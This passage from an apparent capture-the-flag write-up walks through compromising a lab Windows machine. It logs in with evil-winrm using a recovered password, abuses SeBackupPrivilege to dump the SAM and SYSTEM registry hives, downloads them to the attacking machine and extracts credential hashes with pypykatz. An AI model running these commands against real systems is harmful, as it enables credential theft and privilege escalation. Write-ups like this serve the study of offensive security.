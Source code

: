 This discloses a further password for **emily.oscars**, which we can now use to authenticate against the machine using `evilwin-rm`.

```shell
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

Once authenticated, the **user.txt** flag can be found on the user's desktop.

# Root Flag

## Identifying a Privesc Vector

As the **emily.oscars** user, we can find out more about what privileges they have by running:

```shell
whoami /all
```

This shows us that the user has the `SeBackupPrivilege` privilege.

A quick Google search and we can find out more about this, and see that it can be a potential privesc attack path, as it allows our user to read all files within the system.

## Exploitation

I found an [article] [https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/]which explained the exploit and how it can be leveraged to attain a privesc.

Since our user can read all files in the system, we can use this to pull out sensitive information back to our attacking machine. 

Firstly, we create a Temp directory, and then save the `hklm\sam` and `hklm\system` files within it:

```powershell
cd C:\
mkdir Temp
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
```

Once we've done this, we can use `evil-winrm`'s handy feature to download direct to our attacking machine, within its current working directory.

```shell
cd Temp
download sam
download system
```

Once downloaded, we can extract the secrets from the SAM and SYSTEM files using `pypykatz`, which is essentially `mimikatz` wrapped in Python. This can be found here: [pypykatz][https://github.com/skelsec/pypykatz]. 

```shell
pypykatz registry --sam sam system
```

